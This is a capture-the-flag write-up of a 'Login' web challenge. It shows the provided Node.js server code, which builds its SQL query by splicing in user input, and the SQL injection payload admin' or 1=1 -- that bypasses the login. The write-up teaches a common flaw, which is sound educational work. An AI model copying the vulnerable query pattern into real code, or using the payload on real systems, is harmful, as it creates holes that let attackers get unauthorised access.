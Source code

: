## Login :

The description of this challenge was : " I made a cool login page. I bet you can't get in! " and the home page of the website was presented with a login form like this :

![Capture22](https://user-images.githubusercontent.com/59454895/85869348-d8b1da80-b7cb-11ea-9df9-d9bd98fb9e41.PNG)

## Also an index.js was provided for the donwload :

```javascript
global.__rootdir = __dirname;

const express = require('express');
const bodyParser = require('body-parser');
const cookieParser = require('cookie-parser');
const path = require('path');
const db = require('better-sqlite3')('db.sqlite3');

require('dotenv').config();

const app = express();

app.use(bodyParser.json({ extended: false }));
app.use(cookieParser());

app.post('/api/flag', (req, res) => {
    const username = req.body.username;
    const password = req.body.password;
    if (typeof username !== 'string') {
        res.status(400);
        res.end();
        return;
    }
    if (typeof password !== 'string') {
        res.status(400);
        res.end();
        return;
    }

    let result;
    try {
        result = db.prepare(`SELECT * FROM users 
            WHERE username = '${username}'
            AND password = '${password}';`).get();
    } catch (error) {
        res.json({ success: false, error: "There was a problem." });
        res.end();
        return;
    }
    
    if (result) {
        res.json({ success: true, flag: process.env.FLAG });
        res.end();
        return;
    }

    res.json({ success: false, error: "Incorrect username or password." });
});

app.use(express.static(path.join(__dirname, '/public')));

app.listen(process.env.PORT || 3000);

db.prepare(`CREATE TABLE IF NOT EXISTS users (
    id INTEGER PRIMARY KEY AUTOINCREMENT,
    username TEXT,
    password TEXT);`).run();

db.prepare(`INSERT INTO 
    users (username, password)
    VALUES ('${process.env.USERNAME}', '${process.env.PASSWORD}');`).run();
```
When i had a first look at the code i understood that there was a call to api/flag  with the credentials when we try to login , without any  kind of sanitization , so i tried to insert "admin' or 1=1 --  "  in the username field so i could have a query like this : ``` SELECT * FROM users 
            WHERE username = 'admin' or 1=1 -- '
            AND password = '${password}'; ```


![Capture](https://user-images.githubusercontent.com/59454895/85872271-cc2f8100-b7cf-11ea-9ec7-dd6dc83aa37d.PNG)
